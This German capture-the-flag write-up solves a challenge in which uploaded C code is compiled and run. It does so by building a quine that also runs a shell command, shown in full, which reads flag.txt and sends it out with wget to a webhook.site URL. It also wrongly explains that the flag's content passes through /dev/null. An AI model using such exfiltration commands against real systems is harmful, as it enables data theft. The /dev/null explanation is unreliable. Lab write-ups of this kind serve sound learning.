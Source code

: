 ## Insane
Für die Challenge wurde eine Python-Datei bereitgestellt. Zusätzlich hierzu konnte eine Webanwendung gestartet werden.

### Infotext
Die Definition von Wahnsinn ist, immer wieder das Gleiche zu tun und andere Ergebnisse zu erwarten.

### Vorgehen
Um einen Überblick über die Challenge zu erhalten, habe ich zuerst einmal die Webanwendung gestartet, um zu sehen, was in ihr Angezeigt wird.
Es handelte sich hierbei um eine einfache Datei-Uploadseite. Bei Upload einer Datei wurden Nachrichten, wie zum Beispiel "Keine Magie nutzen" angezeigt.

Da dies nicht sonderlich weitergeholfen hat, habe ich im nächsten Schritt den Dockerfile untersucht. Von diesem habe ich mir erhofft, Rückschlüsse auf den im Hintergrund laufenden Server ziehen zu können.

### Der Dockerfile
Im Dockerfile werden zuerst Pakete installiert und anschließend werden unterschiedliche Verzeichnisse (mit dem Befehl "mkdir") erstellt. 
Im nächsten Schritt wird nun der Benutzer ctf angelegt und diesem wird als Homeverzeichnis das erstellte Verzeichnis "/ctf" zugewiesen.

Anschließend wird das Objekt der Begierde, also die Datei "flag.txt" in das Verzeichnis "/ctf/app/" kopiert und dem Nutzer ctf übereignet. Dies ist wichtig, um im späteren Verlauf der Challenge zu wissen, wo sich die Flag befindet.

Die nachfolgenden Zeilen sind bis auf die Zeile
```
chmod a+xw /ctf/secureenv # ctf can write binary there
```
zwar zur Kenntniss zu nehmen, aber erstmal irrelevant. Die obige Zeile allerdings ist in Kombination mit der anschließend folgenden Zeile:
```
RUN echo "ctf ALL=(nobody) NOPASSWD: /ctf/secureenv/prog" >> /etc/sudoers
```
in soweit interessant, als dass der Benutzer "ctf" Schreib- und Ausführungsberechtigungen im Verzeichnis "/ctf/secureenv/prog" besitzt und mit diesen an die Sudoersdatei "/etc/sudoers" ohne Passwortabfrage angehangen wird.

Die nachfolgenden Zeilen übereignen die Datei "app.py" an den Benutzer "ctf" und kopieren sie nach "/ctf/app/app.py". Auch wird das Arbeitsverzeichnis dorthin geändert und anschließend die Flask-Anwendung gestartet.

Hierbei handelt es sich höchst Wahrscheinlich um das Web-Interface, das beim Start der Challenge exponiert wird.

### Die Webanwendung
Der Code der Webanwendung ist in der Datei "app.py" zu finden.

Bei Upload einer Datei über das Webinterface wird zuerst die Funktion upload() aufgerufen. 

#### Upload()
Diese Funktion überprüft zuerst das verwendete HTTP-Verb. Ist dies das Verb "POST", dann wird der Request weiter behandelt, ansonsten wird der Inhalt der Funktion html() zurückgegeben (in der Webansicht verändert sich nichts, es wird weiter nach dem Upload eines C-Codes gefragt).

Anschließend wird überprüft, dass auch wirklich eine Datei hochgeladen wurde. Ist dies der Fall, dann wird die Datei gespeichert.
Im nächsten Schritt ruft die Funktion "upload()" eine andere Funktion mit dem Namen "check_file()" mit dem File als Argument auf.

#### Check_file(fn)
In dieser Funktion wird einfach nur überprüft, ob der Inhalt der Datei ein "#" oder ein "#include" enthält.
Ist dies der Fall wird im HTML-Code der Website per FailureException eine entsprechende Fehlermeldung angezeigt.

#### Weiter in Upload()
Nach dem Ausführen des Codes in "check_file()" wird nun die Funktion "main()" aufgerufen.

Die Funktion "main()" enthält den Hauptteil der Anwendungslogik der Website.
Zuerst wird der Inhalt der hochgeladenen Datei im Modus "rb" ausgelesen und in der Variable "fc" gespeichert:
```
fc = open(fn,"rb").read()
```
Danach versucht "main()" die Datei zu kompilieren (über die Funktion "compile()"). Wenn dies nicht erfolgreich ist, wird wieder ein Fehler auf der Website ausgegeben und an dieser Stelle abgebrochen.
Die Kompilierung erfolgt mit folgendem Befehl:
```
gcc -static -fdiagnostics-color=never -x c <filename> -o /ctf/app/compiles/prog
```
Hier ist also auch der Outputpfad nach erfolgreicher Kompilierung ersichtlich.

Im nächsten Schritt wird die Funktion "run()" mit Parameter "first=True" aufgerufen.

#### Funktion run()
diese Funktion startet bei "first=True" einen Subprozess und führt die Kommandos:
```
cp /ctf/app/compiles/prog /ctf/secureenv/prog
``` 
und
```
sudo -u nobody /ctf/secureenv/prog
```
aus. Die Rückgabe dieser Befehle wird als String addiert und per "return" an main ausgegeben.
Effektiv kopieren obige Befehle das hochgeladene, kompilierte Programm "prog" nach "/ctf/secureenv/prog" und führen es aus.

Warum kann hier nicht direkt die Datei "flag.txt" ausgelesen werden (oder dies zumindest versucht werden)? 
-> Der Benutzerkontext ist nicht der richtige, auf die Datei kann also gar nicht zugegriffen werden.

#### Weiter in main()
Wenn die Länge der Ausgabe der obigen Befehle = 0 ist, wird "Keine Ausgabe" ausgegeben. Ist die Ausgabe ungleich dem Byteinhalt der hochgeladenen Datei, dann wird auf der Website "Falsches Ergebnis" ausgegeben.

Dies bedeutet, um es noch einmal klarzustellen: Die Ausgabe der Kompilierung und Ausführung des hochgeladenen C-Programmes muss gleich dem Byteinhalt der hochgeladenen Datei sein.

Ist dies der Fall, dann wird das Programm erneut mit "compile()" kompiliert und mit "run()" ausgeführt, allerdings ist diesmal der Parameter "first" auf False gesetzt.

### Idee für einen Exploit
Es muss ein C-Programm geschrieben werden, das sich selbst vollständig ausgiebt aber auch gleichzeitig die Datei Flag.txt extrahieren kann. Da in App.py keine Möglichkeit besteht, eigenen Inhalt an den Websiten-Code anzuhängen ist die einfachste Möglichkeit whs. das anhängen des Dateiinhaltes an einen Web-Request an einen sogenannten Web-Hook.

### Teil 1, eine sogenannte Quine
Zuerst muss aber ein C-Programm geschrieben werden, dass sich vollständig selbst ausgiebt.
Nach ein bisschen Googeln bin ich auf den Namen "Quine" für diese Programme gekommen und habe auch recht schnell ein Beispiel gefunden. 
Die verwendete Quine mit Exploitcode ist in der Datei "exploit.c" zu finden. 
Die genauere Definition von Quines kann u.a. auf Wikipedia nachgelesen werden:
https://en.wikipedia.org/wiki/Quine_(computing)

### Teil 2, der Exploit
Nachdem ein Programm gefunden war, dass sich vollständig selbst ausgiebt, habe ich anschließend die folgende Zeile eingefügt:
```
system("var=$(cat flag.txt) > /dev/null 2>&1; wget http://webhook.site/<unique_webhook_url>/$var > /dev/null 2>&1");
```
Der Teil "> /dev/null 2>&1" der Zeile dient dazu, die Ausgabe des Befehls "var=$(cat flag.txt)" von der Terminalausgabe auf die Datei "/dev/null" umzulenken, um keine Kommandoausgabe im Terminal zu produzieren. Dies geschieht aus dem Grund, dass eine Quine keine Ausgabe außer dem eigenen Inhalt produzieren darf. Da in "main()" nur die Terminalausgabe des Subprozesses überprüft wird, ist die Umleitung der Ausgabe auf "/dev/null" kein "Abbruchgrund" für das Programm.

Anschließend geschieht ein Web-Request auf eine von mir registrierte Webhook. Dies ist an sich nur ein Tool, mit dem Internettraffic untersucht werden kann.
https://webhook.site/

Setzt man einen Request an die nach Aufruf der Seite angezeigte, einzigartige URL ab, werden alle Anfragen an diese im REQUESTS-Tab angezeigt. Dies erspart es einem, ein Portforwarding auf dem eigenen Router für einen eigenen Webserver einzurichten.

An den HTTP-Request mit "wget" wurde per Variable der Inhalt der Datei "/dev/null" angehangen. Dies entspricht dem Inhalt der Datei "flag.txt", da wir diesen ja zuvor in "/dev/null" umgelenkt haben.

Nach dem Hochladen dieser Quine erhält man zehn neue GET-Requests im Webhook-REQUESTS-Tab mit der angehangenen Flag.

## Letzte Worte
Damit ist die Challenge final gelöst. Die Challenge hat mir sehr gut gefallen, da ich einige neue Dinge gelernt habe (z.B. was ist eine Quine etc).

